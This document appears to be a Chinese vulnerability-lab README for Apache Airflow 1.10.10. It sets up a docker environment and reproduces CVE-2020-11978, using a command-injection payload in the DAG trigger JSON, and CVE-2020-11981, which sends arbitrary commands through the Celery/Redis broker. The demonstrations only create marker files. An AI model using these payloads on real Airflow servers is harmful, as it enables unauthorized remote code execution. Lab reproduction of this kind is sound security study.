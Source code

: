 # Airflow 1.10.10 多个漏洞利用

airflow是一款开源的，分布式任务调度框架，它将一个具有上下级依赖关系的工作流，组装成一个有向无环图。

docker-compose文件由airflow 2.x提供的docker-compose文件修改而来。

Airflow的配置中使用CeleryExecutor进行任务执行，所以命令执行结果需要在CeleryWorker所在容器中进行查看。

由于启动的组件比较多，可能会有点卡，虚拟机使用请准备2G以上的内存。

## 漏洞环境

依次执行如下命令启动airflow 1.10.10

```bash
#初始化数据库
docker-compose run airflow-init initdb
#启动服务
docker-compsoe up -d
```

## 漏洞复现

### CVE-2020-11978 示例dag中的命令注入

访问`http://主机:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20210701142307744](README.assets/image-20210701142307744.png)

再点击执行按钮，在`Configuration JSON`中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`,再点`Trigger`执行dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

等几秒可以看到执行`success`了

![image-20210701142948275](README.assets/image-20210701142948275.png)

到CeleryWorker容器中进行查看：

```bash
docker exec -it [celeryworker容器名] ls -l /tmp
```

可以看到成功创建了airflow_dag_success文件

![image-20210701143152868](README.assets/image-20210701143152868.png)

### CVE-2020-11981 利用Celery进行命令执行

（其实这个还有默认配置中的各种未授权问题的结合利用）

airflow使用Celery 4.0以上的版本，所以没法通过pickle反序列化漏洞进行利用，但可以通过下发自带启动Task用的`airflow.executors.celery_executor.execute_command`任务来执行任意命令，参数为命令执行中所需要的数组。

漏洞利用脚本`exploit_airflow_celery.py`仅支持在python3下使用,默认执行命令`touch /tmp/airflow_celery_success`

```bash
pip install redis
python exploit_airflow_celery.py [主机IP]
```

查看结果：

```bash
docker logs [celeryworker容器名]
```

可以看到如下任务消息：

![image-20210701143950658](README.assets/image-20210701143950658.png)

```bash
docker exec -it [celeryworker容器名] ls -l /tmp
```

可以看到成功创建了文件`airflow_celery_success`

![image-20210701144043792](README.assets/image-20210701144043792.png)

## 参考

https://xz.aliyun.com/t/8037

https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803

